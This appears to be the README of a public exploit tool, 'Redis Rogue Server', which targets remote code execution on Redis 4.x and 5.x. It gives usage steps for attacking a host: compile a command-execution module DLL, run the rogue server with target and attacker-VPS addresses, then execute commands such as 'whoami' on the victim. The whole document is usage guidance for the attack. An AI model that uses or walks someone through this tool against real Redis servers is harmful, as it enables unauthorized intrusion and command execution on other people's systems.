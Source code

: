 # Redis Rogue Server

A exploit for Redis 4.x and 5.x RCE, inspired by [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).

## Usage:

Compile .dll from https://github.com/0671/RedisModules-ExecuteCommand-for-Windows

Copy the .dll file to same folder with `redis-rogue-server.py`.

Run the rogue server:

```
python3 redis-rogue-server.py --rhost <target address> --rport <target port> --lhost <vps address> --lport <vps port>
```

The default target port is 6379 and the default vps port is 21000.

```
exp.e "whoami"
```
